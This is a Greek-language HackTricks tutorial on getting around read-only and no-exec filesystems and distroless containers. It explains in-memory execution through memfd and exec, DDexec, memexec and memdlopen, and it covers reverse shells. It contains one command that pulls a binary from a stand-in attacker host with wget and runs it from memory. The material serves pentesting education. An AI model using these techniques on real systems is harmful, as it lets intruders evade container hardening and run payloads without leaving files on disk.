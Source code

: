 # Παράκαμψη προστασίας FS: μόνο για ανάγνωση / χωρίς εκτέλεση / Distroless

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs** στα [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Αν σας ενδιαφέρει η **καριέρα στο χάκινγκ** και να χακεύετε το αχακέβατο - **σας προσλαμβάνουμε!** (_απαιτείται άριστη γραπτή και προφορική γνώση της πολωνικής_).

{% embed url="https://www.stmcyber.com/careers" %}

## Βίντεο

Στα παρακάτω βίντεο μπορείτε να βρείτε τις τεχνικές που αναφέρονται σε αυτήν τη σελίδα εξηγημένες πιο λεπτομερώς:

* [**DEF CON 31 - Εξερευνώντας τη Μετασχηματισμό Μνήμης Linux για Κρυψώνεια και Αποφυγή**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Κρυφές εισβολές με το DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## Σενάριο μόνο για ανάγνωση / χωρίς εκτέλεση

Είναι όλο και πιο συνηθισμένο να βρίσκουμε μηχανές Linux που έχουν τοποθετηθεί με προστασία **μόνο για ανάγνωση (ro) του συστήματος αρχείων**, ειδικά σε containers. Αυτό συμβαίνει επειδή για να τρέξετε ένα container με ro σύστημα αρχείων είναι τόσο εύκολο όσο το να ορίσετε **`readOnlyRootFilesystem: true`** στο `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Ωστόσο, ακόμη κι αν το σύστημα αρχείων είναι τοποθετημένο ως ro, το **`/dev/shm`** θα παραμείνει εγγράψιμο, οπότε είναι ψεύτικο ότι δεν μπορούμε να γράψουμε τίποτα στο δίσκο. Ωστόσο, αυτός ο φάκελος θα είναι **τοποθετημένος με προστασία χωρίς εκτέλεση**, οπότε αν κατεβάσετε ένα δυαδικό αρχείο εδώ **δεν θα μπορείτε να το εκτελέσετε**.

{% hint style="warning" %}
Από την οπτική γωνία μιας κόκκινης ομάδας, αυτό κάνει **πιο περίπλοκη τη λήψη και εκτέλεση** δυαδικών που δεν υπάρχουν ήδη στο σύστημα (όπως backdoors ή enumerators όπως το `kubectl`).
{% endhint %}

## Ευκολότερη παράκαμψη: Σενάρια

Σημειώστε ότι αναφέρθηκα σε δυαδικά, μπορείτε να **εκτελέσετε οποιοδήποτε σενάριο** όσο το διερμηνέας βρίσκεται μέσα στη μηχανή, όπως ένα **shell script** αν το `sh` είναι παρόν ή ένα **σενάριο python** αν έχει εγκατασταθεί το `python`.

Ωστόσο, αυτό δεν είναι αρκετό μόνο για να εκτελέσετε το δυαδικό backdoor σας ή άλλα δυαδικά εργαλεία που ίσως χρειαστεί να τρέξετε.

## Παρακάμψεις Μνήμης

Αν θέλετε να εκτελέσετε ένα δυαδικό αλλά το σύστημα αρχείων δεν το επιτρέπει, ο καλύτερος τρόπος για να το κάνετε είναι με το **να το εκτελέσετε από τη μνήμη**, καθώς οι **προστασίες δεν ισχύουν εκεί**.

### Παράκαμψη FD + exec syscall

Αν έχετε ισχυρούς μηχανισμούς σεναρίων μέσα στη μηχανή, όπως **Python**, **Perl** ή **Ruby**, μπορείτε να κατεβάσετε το δυαδικό για εκτέλεση από τη μνήμη, να το αποθηκεύσετε σε έναν περιγραφέα αρχείου μνήμης (`create_memfd` syscall), ο οποίος δεν θα προστατεύεται από αυτές τις προστασίες, και στη συνέχεια να καλέσετε ένα **`exec` syscall** δείχνοντας το **fd ως το αρχείο προς εκτέλεση**.

Για αυτό μπορείτε εύκολα να χρησιμοποιήσετε το έργο [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Μπορείτε να του περάσετε ένα δυαδικό και θα δημιουργήσει ένα σενάριο στην καθορισμένη γλώσσα με το **δυαδικό συμπιεσμένο και κωδικοποιημένο σε b64** με τις οδηγίες για το **αποκωδικοποίηση και αποσυμπίεση** του σε ένα **fd** που δημιουργείται καλώντας το syscall `create_memfd` και μια κλήση στο **exec** syscall για να το εκτελέσει.

{% hint style="warning" %}
Αυτό δεν λειτουργεί σε άλλες γλώσσες σεναρίων όπως PHP ή Node επειδή δεν έχουν κανέναν **προεπιλεγμένο τρόπο να καλέσουν raw syscalls** από ένα σενάριο, οπότε δεν είναι δυνατό να καλέσουν το `create_memfd` για να δημιουργήσουν το **fd μνήμης** για να αποθηκεύσουν το δυαδικό.

Επιπλέον, η δημιουργία ενός **κανονικού fd** με ένα αρχείο στο `/dev/shm` δεν θα λειτουργήσει, καθώς δεν θα σας επιτραπεί να το εκτελέσετε λόγω της **προστασίας χωρίς εκτέλεση** που θα εφαρμοστεί.
{% endhint %}

### DDexec / EverythingExec

Το [**DDexec / EverythingExec**](https://github.com/arget13/DDexec) είναι μια τεχνική που σας επιτρέπει να **τροποποιήσετε τη μνήμη της δικής σας διεργασίας** με το να αντικαθιστάτε το **`/proc/self/mem`** της.

Έτσι, **ελέγχοντας τον κώδικα συναρμολόγησης** που εκτελείται από τη διεργασία, μπορείτε να γράψετε ένα **shellcode** και "μεταλλάσσετε" τη διεργασία για να **εκτελέσετε οποιοδήποτε αυθαίρετο κώδικα**.

{% hint style="success" %}
Το **DDexec / EverythingExec** θα σας επιτρέψει να φορτώσετε και **να εκτελέσετε** το δικό σας **shellcode** ή **οποιοδήποτε δυαδικό** από τη **μνήμη**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec) είναι το φυσικό επόμενο βήμα του DDexec. Είναι ένα **DDexec shellcode demonised**, οπότε κάθε φορά που θέλετε να **εκτελέσετε ένα διαφορετικό δυαδικό αρχείο** δεν χρειάζεται να ξαναξεκινήσετε το DDexec, μπορείτε απλά να εκτελέσετε το shellcode του memexec μέσω της τεχνικής DDexec και στη συνέχεια **να επικοινωνήσετε με αυτό το δαίμονα για να περάσετε νέα δυαδικά αρχεία για φόρτωση και εκτέλεση**.

Μπορείτε να βρείτε ένα παράδειγμα για το πώς να χρησιμοποιήσετε το **memexec για να εκτελέσετε δυαδικά αρχεία από ένα αντίστροφο κέλυφος PHP** στο [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Με παρόμοιο σκοπό με το DDexec, η τεχνική [**memdlopen**](https://github.com/arget13/memdlopen) επιτρέπει έναν **ευκολότερο τρόπο φόρτωσης δυαδικών αρχείων** στη μνήμη για να τα εκτελέσετε αργότερα. Μπορεί ακόμη να επιτρέψει τη φόρτωση δυαδικών αρχείων με εξαρτήσεις.

## Διασπορά Bypass

### Τι είναι το distroless

Τα δοχεία distroless περιέχουν μόνο τα **απαραίτητα ελάχιστα στοιχεία για να εκτελέσουν μια συγκεκριμένη εφαρμογή ή υπηρεσία**, όπως βιβλιοθήκες και εξαρτήσεις χρόνου εκτέλεσης, αλλά εξαιρούν μεγαλύτερα στοιχεία όπως έναν διαχειριστή πακέτων, κέλυφος ή διατηρητές συστήματος.

Ο στόχος των δοχείων distroless είναι να **μειώσουν την επιφάνεια επίθεσης των δοχείων εξαλείφοντας τα περιττά στοιχεία** και μειώνοντας τον αριθμό των ευπαθειών που μπορούν να εκμεταλλευτούν.

### Αντίστροφο Κέλυφος

Σε ένα δοχείο distroless ενδέχεται να **μην βρείτε ούτε το `sh` ούτε το `bash`** για να πάρετε ένα κανονικό κέλυφο. Δεν θα βρείτε επίσης δυαδικά όπως το `ls`, `whoami`, `id`... όλα όσα συνήθως εκτελείτε σε ένα σύστημα.

{% hint style="warning" %}
Επομένως, **δεν** θα μπορείτε να πάρετε ένα **αντίστροφο κέλυφος** ή να **απαριθμήσετε** το σύστημα όπως συνήθως κάνετε.
{% endhint %}

Ωστόσο, αν το υποβαθμισμένο δοχείο εκτελεί, για παράδειγμα, έναν ιστό flask, τότε το python είναι εγκατεστημένο, και μπορείτε να αποκτήσετε ένα **αντίστροφο κέλυφος Python**. Αν εκτελείτε node, μπορείτε να αποκτήσετε ένα Node αντίστροφο κέλυφο, και το ίδιο με σχεδόν οποιαδήποτε **γλώσσα σεναρίωσης**.

{% hint style="success" %}
Χρησιμοποιώντας τη γλώσσα σεναρίωσης μπορείτε να **απαριθμήσετε το σύστημα** χρησιμοποιώντας τις δυνατότητες της γλώσσας.
{% endhint %}

Αν δεν υπάρχουν **προστασίες `read-only/no-exec`** μπορείτε να καταχραστείτε το αντίστροφο κέλυφός σας για να **γράψετε στο σύστημα αρχεία δυαδικών** και να τα **εκτελέσετε**.

{% hint style="success" %}
Ωστόσο, σε αυτού του είδους τα δοχεία αυτές οι προστασίες συνήθως υπάρχουν, αλλά μπορείτε να χρησιμοποιήσετε τις **προηγούμενες τεχνικές εκτέλεσης μνήμης για να τις παρακάμψετε**.
{% endhint %}

Μπορείτε να βρείτε **παραδείγματα** για το **εκμετάλλευση ορισμένων ευπαθειών RCE** για να αποκτήσετε **αντίστροφα κέλυφα γλωσσών σεναρίωσης** και να εκτελέσετε δυαδικά από τη μνήμη στο [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).
